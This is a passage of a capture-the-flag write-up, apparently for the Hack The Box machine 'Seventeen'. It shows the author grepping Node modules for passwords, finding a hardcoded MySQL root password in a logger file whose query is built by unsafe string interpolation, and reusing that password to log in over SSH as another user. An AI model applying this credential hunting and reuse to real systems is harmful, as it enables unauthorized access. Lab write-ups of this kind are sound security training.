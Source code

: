 Then, from `/db-logger/logger.js` file, I can find a credential.

```bash
mark@seventeen:/dev/shm/node_modules$ grep -ir "password" . | more
./db-logger/logger.js:  password: "IhateMathematics123#",
./mysql/Readme.md:  password : 'secret',
./mysql/Readme.md:  password : 'secret'

...SNIP...
```

```bash
mark@seventeen:/dev/shm/node_modules/db-logger$ cat logger.js
var mysql = require('mysql');

var con = mysql.createConnection({
  host: "localhost",
  user: "root",
  password: "IhateMathematics123#",
  database: "logger"
});

function log(msg) {
    con.connect(function(err) {
        if (err) throw err;
        var date = Date();
        var sql = `INSERT INTO logs (time, msg) VALUES (${date}, ${msg});`;
        con.query(sql, function (err, result) {
        if (err) throw err;
        console.log("[+] Logged");
        });
    });
};

module.exports.log = log
```

The extracted password is `IhateMathematics123#`.
Let's test this credential with `kavi`.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ ssh kavi@seventeen.htb          
kavi@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 16 14:42:22 UTC 2025

  System load:                    0.04
  Usage of /:                     60.8% of 11.75GB
  Memory usage:                   61%
  Swap usage:                     0%
  Processes:                      359
  Users logged in:                1
  IP address for eth0:            10.10.11.165
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1


18 updates can be applied immediately.
```